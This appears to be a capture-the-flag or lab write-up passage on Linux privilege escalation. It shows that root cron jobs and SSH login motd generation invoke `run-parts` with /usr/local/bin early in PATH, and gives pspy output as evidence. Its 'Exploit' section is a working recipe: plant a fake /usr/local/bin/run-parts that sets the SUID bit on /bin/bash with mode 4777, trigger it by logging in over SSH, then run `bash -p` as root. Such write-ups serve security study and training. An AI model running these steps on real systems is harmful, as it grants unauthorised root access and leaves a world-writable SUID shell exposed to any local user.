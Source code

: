 If we can hijack some programs in `/usr/local`, we can easy to get root.

Hijack `run-parts` program is a way to easy to get root, because most of program will run a `run-parts` like (crontab, when ssh login).

```
$ cat /etc/crontab | grep run-parts
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
```

or When a new ssh session login.

```
$ pspy64
2024/02/01 22:02:08 CMD: UID=0     PID=1      | init [2]
2024/02/01 22:02:10 CMD: UID=0     PID=17883  | sshd: [accepted]
2024/02/01 22:02:10 CMD: UID=0     PID=17884  | sshd: [accepted]
2024/02/01 22:02:14 CMD: UID=0     PID=17886  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2024/02/01 22:02:14 CMD: UID=0     PID=17887  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2024/02/01 22:02:14 CMD: UID=0     PID=17888  | run-parts --lsbsysinit /etc/update-motd.d
2024/02/01 22:02:14 CMD: UID=0     PID=17889  | uname -rnsom
2024/02/01 22:02:14 CMD: UID=0     PID=17890  | sshd: mane [priv]
2024/02/01 22:02:15 CMD: UID=0     PID=17891  | -bash
```

Exploit

```
# 0x1 Add a run-parts script in /usr/local/bin/
$ vi /usr/local/bin/run-parts
#! /bin/bash
chmod 4777 /bin/bash

# 0x2 Don't forget to add a execute permission
$ chmod +x /usr/local/bin/run-parts

# 0x3 start a new ssh sesstion to trigger the run-parts program

# 0x4 check premission for `u+s`
$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1099016 May 15  2017 /bin/bash

# 0x5 root it
$ /bin/bash -p
```
